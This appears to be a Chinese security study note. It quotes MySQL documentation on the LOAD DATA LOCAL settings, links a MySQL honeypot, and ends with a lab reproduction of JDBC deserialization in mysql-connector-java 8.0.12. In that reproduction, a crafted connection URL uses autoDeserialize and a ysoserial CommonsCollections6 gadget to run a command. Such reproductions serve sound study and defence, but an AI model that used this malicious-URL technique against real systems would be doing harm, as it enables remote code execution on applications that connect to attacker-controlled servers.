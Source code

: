 >
>   - 对于使用C API的客户端程序，本地数据加载功能由编译到MySQL客户端库中的默认值决定。要显式启用或禁用它，请调用[`mysql_options()`](https://dev.mysql.com/doc/c-api/5.7/en/mysql-options.html) C API函数以禁用或启用该 `MYSQL_OPT_LOCAL_INFILE`选项。参见 [mysql_options（）](https://dev.mysql.com/doc/c-api/5.7/en/mysql-options.html)。
>
>   - 对于**mysql**客户端，本地数据加载能力由编译到MySQL客户端库中的默认值决定。要显式禁用或启用它，请使用 [`--local-infile=0`](https://dev.mysql.com/doc/refman/5.7/en/mysql-command-options.html#option_mysql_local-infile)或 [`--local-infile[=1\]`](https://dev.mysql.com/doc/refman/5.7/en/mysql-command-options.html#option_mysql_local-infile)选项。
>
>   - 对于**mysqlimport**客户端，默认情况下不使用本地数据加载。要显式禁用或启用它，请使用 [`--local=0`](https://dev.mysql.com/doc/refman/5.7/en/mysqlimport.html#option_mysqlimport_local)或 [`--local[=1\]`](https://dev.mysql.com/doc/refman/5.7/en/mysqlimport.html#option_mysqlimport_local)选项。
>
>   - 如果[`LOAD DATA LOCAL`](https://dev.mysql.com/doc/refman/5.7/en/load-data.html)在Perl脚本或其他`[client]`从选项文件中读取该组的程序中使用，则可以向该组添加 `local-infile`选项设置。为防止不理解此选项的程序出现问题，请使用[`loose-`](https://dev.mysql.com/doc/refman/5.7/en/option-modifiers.html) 前缀指定它 ：
>
>     ```
>     >     [client]
>     >     loose-local-infile=0
>     >
>     ```
>
>     ![image-20221202214627819](images/8.png)

> ```
> 或者： >     [client]>     loose-local-infile=1> 
> ```

> - 在所有情况下，`LOCAL` 客户端成功使用加载操作还需要服务器允许本地加载。
>
> 如果`LOCAL`禁用了此功能，则在服务器或客户端上，尝试发出[`LOAD DATA LOCAL`](https://dev.mysql.com/doc/refman/5.7/en/load-data.html)语句的客户端都会 收到以下错误消息：
>
> ```
> > ERROR 1148: The used command is not allowed with this MySQL version
> >
> ```

MySQL蜜罐：https://github.com/qigpig/MysqlHoneypot

# JDBC反序列化（MySql）

## 漏洞复现

复现环境：mysql-connector-java:8.0.12

```
package JDBCAttack;

import java.sql.Connection;
import java.sql.DriverManager;

public class test {
    public static void main(String[] args) throws Exception{
        String url = "jdbc:mysql://127.0.0.1:2333/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&&user=yso_CommonsCollections6_open -a Calculator";
        Connection conn = DriverManager.getConnection(url);
        conn.close();
    }
}
```
